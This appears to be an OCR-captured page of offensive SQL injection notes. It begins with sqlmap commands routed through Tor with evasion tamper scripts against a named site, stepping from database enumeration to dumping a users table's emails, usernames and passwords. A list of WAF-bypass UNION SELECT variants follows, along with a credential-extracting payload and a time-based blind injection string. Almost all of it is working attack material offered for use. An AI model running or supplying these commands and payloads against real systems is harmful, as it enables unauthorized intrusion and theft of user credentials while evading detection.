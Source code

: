  
sqlmap.py -url www.site.ps/index.php --level 5 --risk 3 tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes --dbms=mssql
 
--tamper "randomcase.py" --tor --tor-type=SOCKS5 --tor-port=9050 --dbs --dbms "MySQL" --current-db --random-agent
 
--tamper "randomcase.py" --tor --tor-type=SOCKS5 --tor-port=9050 --dbs --dbms "MySQL" --current-db --random-agent -D "pache_PACHECOCARE" --tables
 
--tamper "randomcase.py" --tor --tor-type=SOCKS5 --tor-port=9050 --dbs --dbms "MySQL" --current-db --random-agent -D "pache_PACHECOCARE" -T "edt_usuarios" --columns
 
--tamper "randomcase.py" --tor --tor-type=SOCKS5 --tor-port=9050 --dbs --dbms "MySQL" --current-db --random-agent -D "pache_PACHECOCARE" -T "edt_usuarios" -C "ud,email,usuario,contra" --dump

============================================================================

========================SQL injection ===============================================

MYSQL INJECTION - BYPASS UNION SELECT (WAF)
WHAT IS BYPASS : when target having WAF (web application firewall) secure encption or security on there server its cannot be directly get any vulnerble columns or its cannot be injeCted! so there haCker try to put diffrent query in combined charachaters encrpted,encoded,modifyed sql query parameters like one called UNION SELECT or UNION ALL SELECT!
there is all types of waf bypass method for bypass union select!
%55nion(%53elect 1,2,3)-- -
+union+distinct+select+
+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
/**//*!50000UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
union /*!50000%53elect*/
+#union+#select
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/*!%55NiOn*/ /*!%53eLEct*/
/*!u%6eion*//*!se%6cect*/
+un/**/ion+se/**/lect
uni%0bon+se%0blect
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/*--*/union/*--*/select/*--*/
union(/*!/**/SeleCT */ 1,2,3)
/*!union*/+/*!select*/
union+/*!select*/
/**/union/**/select/**/
/**/uNIon/**/sEleCt/**/
/**//*!union*//**//*!select*//**/
/*!uNIOn*//*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
uNiOn aLl sElEcT
+union+select+1,(SELECT(@x)FROM(SELECT(@x:=0x00),(SELECT(@x)FROM(user)WHERE(@x)IN(@x:=CONCAT(0x20,@x,user,0x203a3a20,pass,0x3c62723e))))x),3,4,5,6,7,8--+-
0'XOR(if(now()=sysdate()%2Csleep(9)%2C0))XOR'Z
